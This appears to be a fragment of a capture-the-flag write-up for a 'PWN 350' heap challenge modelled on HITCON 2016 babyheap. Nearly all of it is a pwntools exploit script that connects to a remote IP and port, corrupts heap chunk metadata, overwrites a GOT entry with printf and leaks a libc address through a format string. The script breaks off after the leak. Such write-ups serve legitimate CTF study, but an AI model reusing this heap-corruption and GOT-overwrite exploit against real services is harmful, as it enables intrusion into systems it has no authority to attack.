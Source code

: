 ```
p.interactive()
```



# PWN 350

hitcon 2016 babyheap的题

参考：<http://shift-crops.hatenablog.com/entry/2016/10/11/233559#Babyheap-Pwn-300>

payload:
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
mode = 'remote'
# mode = 'local'
if mode == 'local':
   R = process('hiddenlove')
else:
   R = remote('106.75.84.68',20000)

R.recvuntil('4.Just throw yourself at her feet\n')
def alloc(length,word,name):
   R.sendline('1')
   R.recvuntil('how many words do you wanna say with her(0~1000)')
   R.send('%d\n'%length)
   R.recvuntil('write what you wanna to say with her')
   R.send(word)
   R.recvuntil('now tell me her name')
   R.send(name)
   R.recvuntil('4.Just throw yourself at her feet\n')

def edit(word):
   R.sendline('2\n\x00')
   R.recvuntil('Don\'t be shy, make her know your feelings')
   R.send(word)
   R.recvuntil('4.Just throw yourself at her feet\n')

def free():
   R.sendline('3')
   R.recvuntil('4.Just throw yourself at her feet\n')

def malloc(size):
   R.sendline('4')
   R.recvuntil('(Y/N)')
   R.send('N'+'\x00'*(size-1)+'\x50'+'\x00')
context.log_level='debug'
printf_addr = 0x4006F0
alarm_addr = 0x400700
exit_addr = 0x400760
atoi_addr = 0x400740
read_addr = 0x602048

malloc(0xfe8)
R.recvuntil('4.Just throw yourself at her feet\n')
alloc(0x80,'a'*8+p64(0x91)+p64(0)+p64(0x21),p64(0x50))
free()
alloc(0x40,'1'*0x30+p64(0x602060),'aaa')
edit(p64(printf_addr)+p64(0)+p64(alarm_addr))
R.send('%7$s'+'\x00'*4+p64(read_addr))
read_addr = int(R.recv(6)[::-1].encode('hex'),16)
```